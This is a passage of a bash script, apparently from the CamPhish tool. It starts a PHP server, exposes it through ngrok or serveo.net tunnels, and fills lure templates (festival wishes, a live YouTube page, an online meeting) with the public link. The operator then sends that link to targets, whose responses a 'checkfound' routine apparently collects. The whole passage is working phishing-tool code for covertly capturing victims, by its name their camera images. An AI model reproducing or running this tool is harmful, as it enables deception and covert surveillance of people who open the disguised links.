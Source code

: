 if [[ $chg_token == "Y" || $chg_token == "y" || $chg_token == "Yes" || $chg_token == "yes" ]]; then
read -p $'\e[1;92m[\e[0m\e[1;77m+\e[0m\e[1;92m] Enter your valid ngrok authtoken: \e[0m' ngrok_auth
./ngrok authtoken $ngrok_auth >  /dev/null 2>&1 &
printf "\e[1;92m[\e[0m*\e[1;92m] \e[0m\e[1;93mAuthtoken has been changed\n"
fi
else
read -p $'\e[1;92m[\e[0m\e[1;77m+\e[0m\e[1;92m] Enter your valid ngrok authtoken: \e[0m' ngrok_auth
./ngrok authtoken $ngrok_auth >  /dev/null 2>&1 &
fi
printf "\e[1;92m[\e[0m+\e[1;92m] Starting php server...\n"
php -S 127.0.0.1:3333 > /dev/null 2>&1 & 
sleep 2
printf "\e[1;92m[\e[0m+\e[1;92m] Starting ngrok server...\n"
./ngrok http 3333 > /dev/null 2>&1 &
sleep 10

link=$(curl -s -N http://127.0.0.1:4040/api/tunnels | grep -o 'https://[^/"]*\.ngrok-free.app')
if [[ -z "$link" ]]; then
printf "\e[1;31m[!] Direct link is not generating, check following possible reason  \e[0m\n"
printf "\e[1;92m[\e[0m*\e[1;92m] \e[0m\e[1;93m Ngrok authtoken is not valid\n"
printf "\e[1;92m[\e[0m*\e[1;92m] \e[0m\e[1;93m If you are using android, turn hotspot on\n"
printf "\e[1;92m[\e[0m*\e[1;92m] \e[0m\e[1;93m Ngrok is already running, run this command killall ngrok\n"
printf "\e[1;92m[\e[0m*\e[1;92m] \e[0m\e[1;93m Check your internet connection\n"
exit 1
else
printf "\e[1;92m[\e[0m*\e[1;92m] Direct link:\e[0m\e[1;77m %s\e[0m\n" $link
fi
payload_ngrok
checkfound
}

camphish() {
if [[ -e sendlink ]]; then
rm -rf sendlink
fi

printf "\n-----Choose tunnel server----\n"    
printf "\n\e[1;92m[\e[0m\e[1;77m01\e[0m\e[1;92m]\e[0m\e[1;93m Ngrok\e[0m\n"
printf "\e[1;92m[\e[0m\e[1;77m02\e[0m\e[1;92m]\e[0m\e[1;93m Serveo.net\e[0m\n"
default_option_server="1"
read -p $'\n\e[1;92m[\e[0m\e[1;77m+\e[0m\e[1;92m] Choose a Port Forwarding option: [Default is 1] \e[0m' option_server
option_server="${option_server:-${default_option_server}}"
select_template
if [[ $option_server -eq 2 ]]; then

command -v php > /dev/null 2>&1 || { echo >&2 "I require ssh but it's not installed. Install it. Aborting."; exit 1; }
start

elif [[ $option_server -eq 1 ]]; then
ngrok_server
else
printf "\e[1;93m [!] Invalid option!\e[0m\n"
sleep 1
clear
camphish
fi

}


payload() {

send_link=$(grep -o "https://[0-9a-z]*\.serveo.net" sendlink)
sed 's+forwarding_link+'$send_link'+g' template.php > index.php
if [[ $option_tem -eq 1 ]]; then
sed 's+forwarding_link+'$link'+g' festivalwishes.html > index3.html
sed 's+fes_name+'$fest_name'+g' index3.html > index2.html
elif [[ $option_tem -eq 2 ]]; then
sed 's+forwarding_link+'$link'+g' LiveYTTV.html > index3.html
sed 's+live_yt_tv+'$yt_video_ID'+g' index3.html > index2.html
else
sed 's+forwarding_link+'$link'+g' OnlineMeeting.html > index3.html
sed 's+live_yt_tv+'$yt_video_ID'+g' index3.html > index2.html
fi
rm -rf index3.html

}

start() {

default_choose_sub="Y"
default_subdomain="saycheese$RANDOM"

printf '\e[1;33m[\e[0m\e[1;77m+\e[0m\e[1;33m] Choose subdomain? (Default:\e[0m\e[1;77m [Y/n] \e[0m\e[1;33m): \e[0m'
read choose_sub
choose_sub="${choose_sub:-${default_choose_sub}}"
if [[ $choose_sub == "Y" || $choose_sub == "y" || $choose_sub == "Yes" || $choose_sub == "yes" ]]; then
subdomain_resp=true
printf '\e[1;33m[\e[0m\e[1;77m+\e[0m\e[1;33m] Subdomain: (Default:\e[0m\e[1;77m %s \e[0m\e[1;33m): \e[0m' $default_subdomain
read subdomain
subdomain="${subdomain:-${default_subdomain}}"
fi

server
payload
checkfound

}

banner
dependencies
camphish
